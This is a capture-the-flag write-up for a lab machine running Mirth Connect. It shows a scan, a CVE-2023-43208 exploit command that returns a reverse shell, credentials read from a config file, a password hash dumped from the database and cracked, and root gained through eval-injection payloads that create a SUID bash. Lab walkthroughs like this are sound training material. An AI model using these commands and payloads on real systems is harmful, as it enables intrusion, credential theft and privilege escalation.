




## Machine Interpreter (Active) [Medium]

nmap scan : 
```
❯ nmap -T4 -F -sV 10.129.1.121
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-22 00:00 +0100
Nmap scan report for 10.129.1.121
Host is up (0.29s latency).
Not shown: 97 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
80/tcp  open  http     Jetty
443/tcp open  ssl/http Jetty
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.64 seconds

```

http + ssh + ssl ports, alr, let's start with the web : \
\
takes you here ;
clicking butons will execute js stuff like : 
\
lets click different buttons and see of the website behaves: \
when clicking on the launch , this file is downloaded : ```webstart.jnlp``` let's leave it for later, when downloading the administrator portal , its some big something downloading i aint got the net for that tbh. lets check the version of mirth connect , its 4.4.0, and ..:
hello \
\
lets see what it does : 
```
python3 CVE-2023-43208.py -u https://10.129.2.48 -lh 10.10.14.125 -lp 9999
```
and ... we got some shell !\
\
lets see what we can do:
```
❯cat /etc/passwd | grep -v nologin
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
sedric:x:1000:1000:sedric,,,:/home/sedric:/bin/bash
mysql:x:104:112:MySQL Server,,,:/nonexistent:/bin/false
_laurel:x:999:996::/var/log/laurel:/bin/false
```

so we got a real user, sedric, lets look around for something that might give out his creds, maybe he might've used the same password across different places;
after some llm sorcery I found this : 
```
❯grep -E "database.password|database.username|keystore.pass" /usr/local/mirthconnect/conf/mirth.properties
database.username = mirthdb
database.password = MirthPass123!

```
so we have the password for the database, we just do some querying rn:

```
❯mysql -u mirthdb -p'MirthPass123!' mc_bdd_prod -e "show tables;"
Tables_in_mc_bdd_prod
ALERT
CHANNEL
CHANNEL_GROUP
CODE_TEMPLATE
CODE_TEMPLATE_LIBRARY
CONFIGURATION
DEBUGGER_USAGE
D_CHANNELS
D_M1
D_MA1
D_MC1
D_MCM1
D_MM1
D_MS1
D_MSQ1
EVENT
PERSON
PERSON_PASSWORD
PERSON_PREFERENCE
SCHEMA_INFO
SCRIPT

❯mysql -u mirthdb -p'MirthPass123!' mc_bdd_prod -e "select * from PERSON;"
ID	USERNAME	FIRSTNAME	LASTNAME	ORGANIZATION	INDUSTRY	EMAIL	PHONENUMBER	DESCRIPTION	LAST_LOGIN	GRACE_PERIOD_START	STRIKE_COUNT	LAST_STRIKE_TIME	LOGGED_IN	ROLE	COUNTRY	STATETERRITORY	USERCONSENT
2	sedric				NULL				2025-09-21 17:56:02	NULL	0	NULL	\0	NULL	United States	NULL	0
❯mysql -u mirthdb -p'MirthPass123!' mc_bdd_prod -e "select * from PERSON_PASSWORD;"
PERSON_ID	PASSWORD	PASSWORD_DATE
2	u/+LBBOUnadiyFBsMOoIDPLbUR0rk59kEkPU17itdrVWA/kLMt3w+w==	2025-09-19 09:22:28

```
hell yeah , we found the hash of sedric's password, we just crack it now : 

-update from the next day ( I was stuck on cracking it for hours, and let's just say,I was one google search away from finding it):\
\
we got the algorithm and iteration count, crackable in 1 minute ffs;
```
hashcat -m 10900 "sha256:600000:u/+LBBOUnac=:YshQbDDqCAzy21EdK5OfZBJD1Ne4rXa1VgP5CzLd8Ps=" /usr/share/wordlists/rockyou.txt
```
and we got the password : ```snowflake1```


\
user flag done!, now for the root flag;\
commands like "getcap" and "sudo -l" didn't work, so what i did is try to look for processes running currently (python processes....) and if we find them running as root (which was the case):\

``` ps aux |  grep -E "python|java|node|php|ruby ```\
and i got this :\
```
root        3567  0.0  0.7 113604 31428 ?        Ss   07:14   0:03 /usr/bin/python3 /usr/local/bin/notif.py
```
great, let's inspect it :\
```
sedric@interpreter:~$ cat /usr/local/bin/notif.py
#!/usr/bin/env python3
"""
Notification server for added patients.
This server listens for XML messages containing patient information and writes formatted notifications to files in /var/secure-health/patients/.
It is designed to be run locally and only accepts requests with preformated data from MirthConnect running on the same machine.
It takes data interpreted from HL7 to XML by MirthConnect and formats it using a safe templating function.
"""
from flask import Flask, request, abort
import re
import uuid
from datetime import datetime
import xml.etree.ElementTree as ET, os

app = Flask(name)
USER_DIR = "/var/secure-health/patients/"; os.makedirs(USER_DIR, exist_ok=True)

def template(first, last, sender, ts, dob, gender):
pattern = re.compile(r"^[a-zA-Z0-9._'"(){}=+/]+$")
for s in [first, last, sender, ts, dob, gender]:
if not pattern.fullmatch(s):
return "[INVALID_INPUT]"
# DOB format is DD/MM/YYYY
try:
year_of_birth = int(dob.split('/')[-1])
if year_of_birth < 1900 or year_of_birth > datetime.now().year:
return "[INVALID_DOB]"
except:
return "[INVALID_DOB]"
template = f"Patient {first} {last} ({gender}), {{datetime.now().year - year_of_birth}} years old, received from {sender} at {ts}"
try:
return eval(f"f'''{template}'''")
except Exception as e:
return f"[EVAL_ERROR] {e}"

@app.route("/addPatient", methods=["POST"])
def receive():
if request.remote_addr != "127.0.0.1":
abort(403)
try:
xml_text = request.data.decode()
xml_root = ET.fromstring(xml_text)
except ET.ParseError:
return "XML ERROR\n", 400
patient = xml_root if xml_root.tag=="patient" else xml_root.find("patient")
if patient is None:
return "No <patient> tag found\n", 400
id = uuid.uuid4().hex
data = {tag: (patient.findtext(tag) or "") for tag in ["firstname","lastname","sender_app","timestamp","birth_date","gender"]}
notification = template(data["firstname"],data["lastname"],data["sender_app"],data["timestamp"],data["birth_date"],data["gender"])
path = os.path.join(USER_DIR,f"{id}.txt")
with open(path,"w") as f:
f.write(notification+"\n")
return notification

if name=="main":
app.run("127.0.0.1",54321, threaded=True)
```
```
sedric@interpreter:~$ ls -la /usr/local/bin/notif.py
-rwxr----- 1 root sedric 2332 Sep 19 09:27 /usr/local/bin/notif.py
```
after some testing around, its got an SSTI, since its already running as root in ``` 127.0.0.1:54321 ``` we can inject root command to open a root bash: 
(with the help of some ai);
```<firstname>{__import__("os").popen("/bin/cp"+chr(32)+"/bin/bash"+chr(32)+"/tmp/rootbash").read()}</firstname>```

we copy bash to /tmp/rootbash, and then we give it the SUID bit : 
```
<firstname>{__import__("os").popen("/bin/chmod"+chr(32)+"4755"+chr(32)+"/tmp/rootbash").read()}</firstname>
```
and there we are :\
\
got it !\

